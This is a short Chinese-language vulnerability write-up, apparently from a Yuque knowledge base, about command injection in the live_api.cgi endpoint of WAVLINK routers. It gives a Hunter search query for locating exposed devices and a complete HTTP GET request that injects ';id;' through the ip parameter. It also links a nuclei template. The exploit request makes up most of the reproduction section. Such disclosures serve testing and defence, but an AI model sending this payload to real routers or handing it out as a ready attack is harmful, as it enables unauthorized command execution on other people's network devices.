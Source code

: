 # WAVLINK live_api.cgi 存在命令执行

# 一、漏洞简介
WAVLINK wavlink是中国睿因科技（WAVLINK）公司的一款路由器。连接两个或多个网络的硬件设备，在网络间起网关的作用。WAVLINK 多款路由器 live_api.cgi 存在命令执行，攻击者可通过此漏洞获取权限。

# 二、影响版本
+ wavlink 路由器

# 三、资产测绘
+ hunter`web.body="firstFlage"`
+ 特征

![1703226837131-abc67852-1626-482a-982b-2f8f69837f2c.png](./img/eM5UpXtfHuIL8Dph/1703226837131-abc67852-1626-482a-982b-2f8f69837f2c-816220.png)

# 四、漏洞复现
```java
GET /cgi-bin/live_api.cgi?page=abc&id=173&ip=;id; HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1703226886159-a96b555d-7af9-4b07-84b0-7ab51ca44a69.png](./img/eM5UpXtfHuIL8Dph/1703226886159-a96b555d-7af9-4b07-84b0-7ab51ca44a69-201909.png)

nuclei脚本

[wanlink-router-live-api-cgi-rce.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222231462-65f524b5-3aa2-4cd2-a4b3-8783722d7a12.yaml)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/on0bkn7zcvll4ivu>